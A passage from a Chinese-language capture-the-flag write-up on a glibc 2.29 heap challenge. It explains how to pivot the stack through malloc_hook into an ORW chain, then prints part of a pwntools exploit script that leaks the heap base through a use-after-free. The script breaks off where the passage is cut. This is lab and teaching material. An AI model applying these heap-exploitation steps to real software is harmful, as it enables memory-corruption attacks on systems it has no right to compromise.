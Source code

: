    ```python
   backdoor(p64(addsp48_addr))		# 确定栈的偏移为0x48
   ```

   调试：在进入calloc，访问到malloc_hook后，确定此时ORW在栈上相比与当前栈顶(sp值)的距离。随便给malloc_hook一个地址，在进入calloc之前打上断点：

   ![image-20240725165924186](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407251659284.png)

   确定栈上的偏移，存储的ORW肯定在栈的**高地址**处（因为calloc函数是在add函数里面又调用的，所以calloc的栈肯定在低地址）：

   ![image-20240725170406294](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407251704470.png)

   确定栈的偏移是+0x48，所以往malloc_hook的位置写一条**add rsp,0x48的指令地址**即可：

   ![image-20240725170655176](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407251706364.png)

4. 完整EXP：

   ```python
   from pwn import *
   from LibcSearcher import *
   context(os='linux', arch='amd64', log_level='debug')
   
   def debug():
       print(proc.pidof(p))
       pause()
   
   p = remote("node5.buuoj.cn",26347)
   # p = process("./pwn")
   # p = gdb.debug("./pwn")
   libc = ELF('./libc-2.29.so')
   elf = ELF("./pwn")
   
   def add(index,content):
       p.sendlineafter(b'>','1')
       p.sendlineafter(b':',str(index))
       p.sendlineafter(b':',content)
   
   def edit(index, content):
       p.sendlineafter(b'>','2')
       p.sendlineafter(b':',str(index).encode())
       # p.sendlineafter(':',str(len(content)))
       p.sendlineafter(b':',content)
   
   def show(index):
       p.sendlineafter(b'>',b'3')
       p.sendlineafter(b':',str(index).encode())
   
   def free(index):
       p.sendlineafter(b'>','4')
       p.sendlineafter(b':',str(index).encode())
   
   def backdoor(content):
       p.sendlineafter(b">",b"50056")
       p.sendline(content)
   
   for i in range(0,7):
       add(0,b"a"*0x87)
       free(0)
   show(0)
   p.recvuntil(b"hero name: ")
   heap_base = u64(p.recv(6).ljust(8,b"\x00"))&0xfffffffff000
   success("heap_base==>"+hex(heap_base))
   
   add(0,b"a"*0x87)
   add(1,b"./flag"+b"\x00"*(0x87-6))
   ```